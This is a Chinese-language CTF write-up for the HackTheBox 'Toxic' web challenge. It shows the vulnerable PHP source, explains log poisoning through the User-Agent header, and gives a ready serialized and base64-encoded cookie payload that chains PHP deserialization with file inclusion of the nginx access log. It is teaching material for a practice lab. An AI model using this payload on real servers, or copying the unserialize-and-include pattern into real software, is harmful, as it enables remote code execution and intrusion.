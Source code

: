 ```yaml
---
title: HackTheBox Toxic WriteUP
date: 2023-08-23 09:39:14
tags:
- HackTheBox
- Web
- PHP反序列化
- 文件包含
---
```


## 题目

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

![Toxic](image.png)

![Web](image-1.png)

## 思路

源代码很简单，只有两个PHP文件

``` php
//index.php

<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

``` php
//PageModel.php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

很显然，是一个PHP反序列化+文件包含的漏洞利用。

这里就需要找到一个可包含的日志文件，我们可以在`nginx.conf`中找到AccessLog文件的位置。

![AccessLog](image-2.png)

## 解题

利用`User-Agent`写入WebShell：

![UA](image-3.png)

构造包含AccessLog的序列化数据：

``` php
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
//base64encode
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

利用WebShell获得文件名和Flag

![FileName](image-4.png)

![Flag](image-5.png)

## 后记

非常简单的一个Challenge，很适合作为学习PHP反序列化的入门练习。

## 参考资料

> - [php反序列化完整总结](https://xz.aliyun.com/t/12507)